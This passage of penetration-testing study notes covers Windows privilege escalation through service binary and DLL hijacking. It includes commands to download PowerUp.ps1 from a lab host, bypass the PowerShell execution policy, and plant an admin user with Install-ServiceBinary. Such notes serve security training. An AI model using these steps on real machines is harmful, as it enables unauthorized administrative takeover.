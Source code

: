### Automated tool: [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

1. Transfer script to target:
   (PS) `iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1`
2. Start PowerShell with **ExecutionPolicy Bypass** (otherwise the running of scripts is blocked):
   `powershell -ep bypass`
3. Import PowerUp.ps1:
   `. .\PowerUp.ps1`
4. Display services the current user can modify, such as the service binary or configuration files:
   `Get-ModifiableServiceFile`

PowerUp.ps1 has an *AbuseFunction*, which is a built-in function to replace the binary and, if we have sufficient permissions, restart it.
`Install-ServiceBinary -Name 'mysql'`
- Default behaviour: creates new local user "john" with password "Password123!" and adds it to local Administrators group. 
- If we don’t have enough permissions to restart the service, we still need to reboot the machine.
- Note: it is buggy when the service binary has a path as an argument
`Install-ServiceBinary -Name 'mysql'`

## Service DLL Hijacking

Problem with Service Binary Hijacking: our user often does not have the permissions to replace these service binaries.

Dynamic Link Library (DLL): 
- provide functionality to programs or the Windows operating system
- contain code or resources for other executable files or objects to use
- equivalent to *Shared Objects* in Unix

Two methods:
- Overwrite a DLL the service binary uses (similar to above section)
	- DLL code is executed -> create new local administrative user
	- Note: the service may not work as expected because the actual DLL functionality is missing
- Hijack DLL search order
	- search order is defined by Microsoft and determines what to inspect first when searching for DLLs
	- By default, all current Windows versions have safe DLL search mode enabled

The DLL should be loaded with the permissions of the user that ran the application which loaded the DLL

### Hijack DLL search order

Standard Windows safe DLL search order:
1. The directory from which the application loaded. 
2. The system directory. 
3. The 16-bit system directory. 
4. The Windows directory. 
5. The current directory. 
6. The directories that are listed in the PATH environment variable.

When safe DLL search mode is disabled, the current directory is searched at position 2 after the application’s directory.
